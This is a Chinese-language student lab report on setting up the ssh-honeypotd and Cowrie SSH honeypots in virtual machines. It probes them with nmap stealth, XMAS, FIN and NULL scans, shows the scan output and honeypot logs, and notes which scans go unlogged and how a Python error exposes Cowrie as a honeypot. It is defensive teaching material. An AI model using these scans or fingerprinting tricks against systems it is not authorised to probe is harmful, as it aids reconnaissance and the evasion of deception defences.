# 常见蜜罐体验和探索

## 实验目的

- 了解蜜罐的分类和基本原理
- 了解不同类型蜜罐的适用场合
- 掌握常见蜜罐的搭建和使用

## 实验环境

- 从 [paralax/awesome-honeypots](https://github.com/paralax/awesome-honeypots)中选择 1 种低交互蜜罐和 1 种中等交互蜜罐进行搭建实验
  - 推荐 `SSH` 蜜罐

## 实验过程

### 蜜罐的搭建过程

>记录蜜罐的详细搭建过程；

#### 低交互蜜罐（**ssh-honeypot**蜜罐）

从[ssh-honeypotd](https://github.com/sjinks/ssh-honeypotd) 获取ssh-honeypot蜜罐

编辑配置文件将ssh的端口号改为一个不常用的端口号，让默认的22留给蜜罐使用。

```
vi /etc/ssh/sshd_config
```



重启ssh服务

```
service ssh restart
```



打开docker服务



从github上获得ssh-honeypot后，进入文件夹，查看README.md进行操作运行蜜罐。首先确保安装libssh



搭建环境并运行（此时报错），修改/etc/ssh/sshd_config配置文件后重启即可


修改好以后启动蜜罐，搭建完成


#### 中等交互蜜罐（**cowrie**蜜罐）

在上面的实验中已经修改了ssh的端口号，打开了docker服务，并停止ssh-honeypot服务，从[Cowrie](https://github.com/cowrie/cowrie)获取cowrie蜜罐



首先下载镜像

```
docker pull cowrie/cowrie #下载镜像
```



运行镜像，至此，cowrie蜜罐搭建完成

```
docker run -p 2222:2222 cowrie/cowrie #运行镜像
```



### nmap扫描

>使用 `nmap` 扫描搭建好的蜜罐并分析扫描结果，同时分析「 `nmap` 扫描期间」蜜罐上记录得到的信息；

#### 低交互蜜罐（**ssh-honeypot**蜜罐）

```
nmap 10.0.2.6//nmap 扫描 tcp服务
nmap -A -Pn -p22 10.0.2.6//nmap综合扫描，包括系统探测，版本探测，脚本扫描，路由跟踪
nmap -sT -P 22 -T4 -n -vv 10.0.2.6//Tcp connect 
nmap -sS -P 22 -T4 -n -vv 10.0.2.6//TCP stealth scan
nmap -sX -P 22 -T4 -n -vv 10.0.2.6//XMAS scan
nmap -sF -P 22 -T4 -n -vv 10.0.2.6//FIN scan
nmap -sN -P 22 -T4 -n -vv 10.0.2.6//NULL scan
```

首先检测蜜罐的使用，可以看到攻击者尝试以root权限登录ssh时可以在蜜罐的日志中看到输入的测试密码



使用综合扫描时记录到被扫描信息，ssh无法连接



以下为日志ssh-honeypot.log中信息

```
Tue Dec 10 13:52:23 2019] ssh-honeypot 0.1.0 by Daniel Roberson started on port 22. PID 27900
[Tue Dec 10 13:52:23 2019] FATAL: ssh_bind_listen(): 
[Tue Dec 10 14:07:01 2019] ssh-honeypot 0.1.0 by Daniel Roberson started on port 22. PID 28012
[Tue Dec 10 14:07:01 2019] FATAL: ssh_bind_listen(): 
[Tue Dec 10 14:12:54 2019] ssh-honeypot 0.1.0 by Daniel Roberson started on port 22. PID 28031
[Tue Dec 10 14:12:54 2019] FATAL: ssh_bind_listen(): 
[Tue Dec 10 14:15:43 2019] ssh-honeypot 0.1.0 by Daniel Roberson started on port 22. PID 28046
[Tue Dec 10 14:16:15 2019] ssh-honeypot 0.1.0 by Daniel Roberson started on port 22. PID 28048
[Tue Dec 10 14:44:06 2019] ssh-honeypot 0.1.0 by Daniel Roberson started on port 22. PID 28307
[Tue Dec 10 14:45:14 2019] 10.0.2.7 Error exchanging keys: Socket error: disconnected
[Tue Dec 10 14:45:18 2019] 10.0.2.7 Error exchanging keys: No version of SSH protocol usable (banner: SSH-1.5-Nmap-SSH1-Hostkey)
[Tue Dec 10 14:45:18 2019] 10.0.2.7 Error exchanging keys: No version of SSH protocol usable (banner: SSH-1.5-NmapNSE_1.0)
[Tue Dec 10 14:45:18 2019] 10.0.2.7 Error exchanging keys: kex error : no match for method server host key algo: server [rsa-sha2-512,rsa-sha2-256,ssh-rsa], client [ssh-dss]
[Tue Dec 10 14:45:18 2019] 10.0.2.7 Error exchanging keys: Socket error: Connection reset by peer
[Tue Dec 10 14:45:18 2019] 10.0.2.7 Error exchanging keys: kex error : no match for method server host key algo: server [rsa-sha2-512,rsa-sha2-256,ssh-rsa], client [ecdsa-sha2-nistp256]
[Tue Dec 10 14:45:18 2019] 10.0.2.7 Error exchanging keys: kex error : no match for method server host key algo: server [rsa-sha2-512,rsa-sha2-256,ssh-rsa], client [ecdsa-sha2-nistp384]
[Tue Dec 10 14:45:18 2019] 10.0.2.7 Error exchanging keys: kex error : no match for method server host key algo: server [rsa-sha2-512,rsa-sha2-256,ssh-rsa], client [ecdsa-sha2-nistp521]
[Tue Dec 10 14:45:18 2019] 10.0.2.7 Error exchanging keys: kex error : no match for method server host key algo: server [rsa-sha2-512,rsa-sha2-256,ssh-rsa], client [ssh-ed25519]
[Tue Dec 10 14:54:35 2019] 10.0.2.7 Error exchanging keys: Socket error: disconnected
[Tue Dec 10 14:54:39 2019] 10.0.2.7 Error exchanging keys: No version of SSH protocol usable (banner: SSH-1.5-NmapNSE_1.0)
[Tue Dec 10 14:54:39 2019] 10.0.2.7 Error exchanging keys: No version of SSH protocol usable (banner: SSH-1.5-Nmap-SSH1-Hostkey)
[Tue Dec 10 15:00:20 2019] 10.0.2.7 Error exchanging keys: Socket error: disconnected
[Tue Dec 10 15:00:23 2019] 10.0.2.7 Error exchanging keys: No version of SSH protocol usable (banner: SSH-1.5-NmapNSE_1.0)
[Tue Dec 10 15:00:23 2019] 10.0.2.7 Error exchanging keys: No version of SSH protocol usable (banner: SSH-1.5-Nmap-SSH1-Hostkey)
[Tue Dec 10 15:04:56 2019] ssh-honeypot 0.1.0 by Daniel Roberson started on port 22. PID 28388
[Tue Dec 10 15:28:31 2019] 10.0.2.7 Error exchanging keys: Socket error: disconnected
[Tue Dec 10 15:28:35 2019] 10.0.2.7 Error exchanging keys: No version of SSH protocol usable (banner: SSH-1.5-Nmap-SSH1-Hostkey)
[Tue Dec 10 15:28:35 2019] 10.0.2.7 Error exchanging keys: No version of SSH protocol usable (banner: SSH-1.5-NmapNSE_1.0)
```

使用TCP stealth scan、XMAS scan、FIN scan、NULL scan时蜜罐日志中未记录，而攻击者主机扫描结果如下

```
//TCP stealth scan
root@bogon:~# nmap -sS -P 22 -T4 -n -vv 10.0.2.6
Warning: The -P option is deprecated. Please use -PE
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-10 15:12 CST
setup_target: failed to determine route to 22 (0.0.0.22)
Initiating ARP Ping Scan at 15:12
Scanning 10.0.2.6 [1 port]
Completed ARP Ping Scan at 15:12, 0.00s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 15:12
Scanning 10.0.2.6 [1000 ports]
Discovered open port 111/tcp on 10.0.2.6
Discovered open port 22/tcp on 10.0.2.6
Completed SYN Stealth Scan at 15:12, 0.06s elapsed (1000 total ports)
Nmap scan report for 10.0.2.6
Host is up, received arp-response (0.00011s latency).
Scanned at 2019-12-10 15:12:15 CST for 0s
Not shown: 998 closed ports
Reason: 998 resets
PORT    STATE SERVICE REASON
22/tcp  open  ssh     syn-ack ttl 64
111/tcp open  rpcbind syn-ack ttl 64
MAC Address: 08:00:27:CE:0A:50 (Oracle VirtualBox virtual NIC)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.11 seconds
           Raw packets sent: 1001 (44.028KB) | Rcvd: 1001 (40.036KB)
           
//XMAS scan
root@bogon:~# nmap -sX -P 22 -T4 -n -vv 10.0.2.6
Warning: The -P option is deprecated. Please use -PE
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-10 15:12 CST
setup_target: failed to determine route to 22 (0.0.0.22)
Initiating ARP Ping Scan at 15:12
Scanning 10.0.2.6 [1 port]
Completed ARP Ping Scan at 15:12, 0.00s elapsed (1 total hosts)
Initiating XMAS Scan at 15:12
Scanning 10.0.2.6 [1000 ports]
Completed XMAS Scan at 15:12, 1.21s elapsed (1000 total ports)
Nmap scan report for 10.0.2.6
Host is up, received arp-response (0.00012s latency).
Scanned at 2019-12-10 15:12:33 CST for 1s
Not shown: 998 closed ports
Reason: 998 resets
PORT    STATE         SERVICE REASON
22/tcp  open|filtered ssh     no-response
111/tcp open|filtered rpcbind no-response
MAC Address: 08:00:27:CE:0A:50 (Oracle VirtualBox virtual NIC)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.26 seconds
           Raw packets sent: 1003 (40.108KB) | Rcvd: 999 (39.948KB)
           
//FIN scan
root@bogon:~# nmap -sF -P 22 -T4 -n -vv 10.0.2.6
Warning: The -P option is deprecated. Please use -PE
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-10 15:12 CST
setup_target: failed to determine route to 22 (0.0.0.22)
Initiating ARP Ping Scan at 15:12
Scanning 10.0.2.6 [1 port]
Completed ARP Ping Scan at 15:12, 0.00s elapsed (1 total hosts)
Initiating FIN Scan at 15:12
Scanning 10.0.2.6 [1000 ports]
Completed FIN Scan at 15:12, 1.21s elapsed (1000 total ports)
Nmap scan report for 10.0.2.6
Host is up, received arp-response (0.00015s latency).
Scanned at 2019-12-10 15:12:44 CST for 1s
Not shown: 998 closed ports
Reason: 998 resets
PORT    STATE         SERVICE REASON
22/tcp  open|filtered ssh     no-response
111/tcp open|filtered rpcbind no-response
MAC Address: 08:00:27:CE:0A:50 (Oracle VirtualBox virtual NIC)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.28 seconds
           Raw packets sent: 1003 (40.108KB) | Rcvd: 999 (39.948KB)
           
//NULL scan
root@bogon:~# nmap -sN -P 22 -T4 -n -vv 10.0.2.6
Warning: The -P option is deprecated. Please use -PE
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-10 15:12 CST
setup_target: failed to determine route to 22 (0.0.0.22)
Initiating ARP Ping Scan at 15:12
Scanning 10.0.2.6 [1 port]
Completed ARP Ping Scan at 15:12, 0.00s elapsed (1 total hosts)
Initiating NULL Scan at 15:12
Scanning 10.0.2.6 [1000 ports]
Completed NULL Scan at 15:12, 1.21s elapsed (1000 total ports)
Nmap scan report for 10.0.2.6
Host is up, received arp-response (0.000094s latency).
Scanned at 2019-12-10 15:12:52 CST for 2s
Not shown: 998 closed ports
Reason: 998 resets
PORT    STATE         SERVICE REASON
22/tcp  open|filtered ssh     no-response
111/tcp open|filtered rpcbind no-response
MAC Address: 08:00:27:CE:0A:50 (Oracle VirtualBox virtual NIC)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.31 seconds
           Raw packets sent: 1003 (40.108KB) | Rcvd: 999 (39.948KB)
```

* 由以上结果可知，该蜜罐只是单纯用来记录 ssh 连接，只有少量的信息记录功能，攻击者对蜜罐使用XMAS scan、FIN scan、NULL scan均可发现其22端口与111端口为开启或过滤状态，但这些扫描并没有被记录下来。而使用TCP stealth scan时收到了syn-ack，说明端口为打开状态。

#### 中等交互蜜罐（**cowrie**蜜罐）

首先对蜜罐进行一些测试

用攻击者主机尝试登录受害者主机，此处随意输入密码即可，进入蜜罐，在日志中可看到输入的尝试登录所使用的密码被详细记录，并且攻击者的ip地址也被记录，同时日志中记录ssh连接搭建成功，攻击者进入蜜罐



尝试使用ping，可以ping通baidu.com，此时指令`ping baidu.com`被记录下来，在command中找到了该指令，所以执行了该指令，使攻击者误以为攻击成功



但在使用curl指令时，引发报错，说明并未进入到主机的命令行中，并不能使用该指令，反而是收到python中的报错`'NoneType' object has no attribute 'strip'`,暴露了这是一个python蜜罐



使用apt-get进行下载vim，受害者主机也假装返回了下载的进程，但并没有办法进行使用安装的软件


使用攻击者主机进入到蜜罐搭建的虚假操作系统中，使用ls命令可列出所有的日志信息，但均为假信息，并且攻击者试图进入系统日志的行为也被记录

